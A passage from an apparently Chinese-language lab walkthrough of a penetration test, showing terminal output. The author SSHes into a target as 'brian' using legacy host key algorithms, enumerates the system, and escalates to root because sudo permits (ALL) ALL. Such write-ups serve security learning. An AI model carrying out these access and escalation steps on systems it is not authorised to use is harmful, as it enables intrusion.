 -   >   └─$ ssh brian@192.168.2.137
    >   Unable to negotiate with 192.168.2.137 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss

-   修改密钥类型继续进行尝试--> 成功登陆并获得shell权限

-   ```shell
    └─$ ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss brian@192.168.2.137
    The authenticity of host '192.168.2.137 (192.168.2.137)' can't be established.
    RSA key fingerprint is SHA256:GfrI8RJ0/Xy8Za7qDP9Gm+RaoxuVz1GWo15hvn8+rdI.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '192.168.2.137' (RSA) to the list of known hosts.
    brian@192.168.2.137's password: 
    Last login: Mon May  8 10:16:58 2023 from 192.168.2.128
    [brian@localhost ~]$ uname -a
    Linux localhost.localdomain 2.6.32-279.el6.i686 #1 SMP Fri Jun 22 10:59:55 UTC 2012 i686 i686 i386 GNU/Linux
    [brian@localhost ~]$ ip addr
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
        link/ether 00:0c:29:4e:09:a9 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.137/24 brd 192.168.2.255 scope global eth1
        inet6 fe80::20c:29ff:fe4e:9a9/64 scope link 
           valid_lft forever preferred_lft forever
    [brian@localhost ~]$ sudo -l
    [sudo] password for brian: 
    Matching Defaults entries for brian on this host:
        requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
        env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
        XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
    
    User brian may run the following commands on this host:
        (ALL) ALL
    [brian@localhost ~]$ sudo /bin/bash
    [root@localhost brian]# 
    
    ```
